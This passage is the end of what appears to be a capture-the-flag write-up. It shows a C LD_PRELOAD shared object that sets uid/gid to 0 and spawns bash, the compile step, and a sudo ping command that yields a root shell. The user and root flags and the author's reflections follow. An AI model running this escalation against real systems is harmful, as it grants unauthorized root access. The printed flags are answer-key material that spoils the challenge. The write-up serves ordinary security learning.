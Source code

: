   ```
      unsetenv("LD_PRELOAD");
      setgid(0);
      setuid(0);
      system("/bin/bash");
  }
  
  saad@ip-10-10-26-41:/tmp$ gcc -fPIC -shared -o pe.so pe.c -nostartfiles
  pe.c: In function ‘_init’:
  pe.c:7:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
      7 |     setgid(0);
        |     ^~~~~~
  pe.c:8:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
      8 |     setuid(0);
        |     ^~~~~~
  ```

- Lastly, just run the exploit and read the flag.

  ```
  saad@ip-10-10-26-41:/tmp$ sudo LD_PRELOAD=./pe.so /usr/bin/ping
  root@ip-10-10-26-41:/tmp# whoami
  root
  root@ip-10-10-26-41:/tmp# id
  uid=0(root) gid=0(root) groups=0(root)
  root@ip-10-10-26-41:/tmp# cat /root/root.txt
  992bfd94b90da48634aed182aae7b99f
  ```

---

## 🏁 Flags

- **User Flag**: `9a1ce90a7653d74ab98630b47b8b4a84`
- **Root Flag**: `992bfd94b90da48634aed182aae7b99f`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Exploiting SSRF.`

- What did I learn?
  `SSRF exploitation and finally tried LD_PRELOAD escalation.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
